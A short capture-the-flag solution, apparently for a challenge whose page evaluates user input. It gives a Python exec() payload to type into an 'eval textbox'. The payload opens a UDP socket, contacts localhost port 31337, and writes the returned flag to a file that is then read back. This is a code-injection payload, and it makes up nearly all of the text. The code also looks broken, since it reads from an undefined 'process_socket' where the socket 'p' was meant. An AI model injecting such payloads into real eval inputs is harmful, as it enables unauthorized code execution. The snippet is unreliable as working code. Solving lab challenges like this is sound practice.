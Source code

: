 # Solution

Type this in eval textbox:

exec("""import socket as s;p=s.socket(s.AF_INET, s.SOCK_DGRAM);p.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);p.bind(("localhost", 0));p.sendto(b"", ("localhost", 31337));open("file_name", "wb").write((process_socket.recvfrom(1024))[0])""")   - write flag to "file_name"

open("file_name")   - read flag from "file_name"
